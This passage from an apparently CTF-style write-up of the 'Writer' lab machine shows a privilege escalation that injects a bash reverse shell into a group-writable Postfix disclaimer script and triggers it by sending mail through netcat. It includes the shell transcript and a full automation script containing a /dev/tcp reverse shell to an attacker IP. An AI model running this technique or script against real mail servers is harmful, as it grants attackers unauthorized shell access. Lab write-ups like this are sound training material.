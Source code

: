 Analyzing the last line means /etc/postfix/disclaimer will be executed if a new mail is received from user john.

```bash
kyle@writer:/etc/postfix$ ls -al | grep discl
  -rwxrwxr-x   1 root filter  1022 Sep 10 13:44 disclaimer
```

The `disclaimer`-file  is owned by group `filter`, meaning kyle should be able to modify it - making it possible to inject a shell to be executed when triggered.

----------------------------------------------------------------

### Step 2

Edit `disclaimer` and change to `#!/bin/bash`, and paste a (bash) reverse shell.
Send a mail with netcat and wait for shell. Ideally this should be scripted with python or at the very least bash.

```bash
kyle@writer:/etc/postfix$ vim disclaimer
kyle@writer:/etc/postfix$ nc localhost 25
  220 writer.htb ESMTP Postfix (Ubuntu)
  HELO writer.htb
    250 writer.htb
  MAIL FROM:<kyle@writer.htb>
    250 2.1.0 Ok
  RCPT TO:<kyle@writer.htb>
    250 2.1.5 Ok
  DATA
    354 End data with <CR><LF>.<CR><LF>
  Subject: Hack Tack!
  .
    250 2.0.0 Ok: queued as 9FF0C802

┌──(void㉿kali)-[~/Documents]
└─$ nc -lvnp 4488
  listening on [any] 4488 ...
  connect to [10.10.14.2] from (UNKNOWN) [10.10.11.101] 33778
  bash: cannot set terminal process group (371156): Inappropriate ioctl for device
  bash: no job control in this shell
  john@writer:/var/spool/postfix$ id
    uid=1001(john) gid=1001(john) groups=1001(john)
```

Here's a quick and dirty bash script I made to automate the process:
```bash
kyle@writer:/dev/shm$ cat noob.sh 
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/10.10.14.2/4488 0>&1' > /etc/postfix/disclaimer
sleep 1
(	echo 'HELO writer.htb'
	sleep 1
	echo 'MAIL FROM:<kyle@writer.htb>'
	sleep 1
	echo 'RCPT TO:<kyle@writer.htb>'
	sleep 1
	echo 'DATA'
	sleep 1
	echo 'Subject: Plz give revshell'
	sleep 1
	echo 'Hello Mr.\nPlease give me a reverse shell.\n\nBest wishes,\nP3'
	echo .
	echo QUIT ) | nc -v localhost 25
```
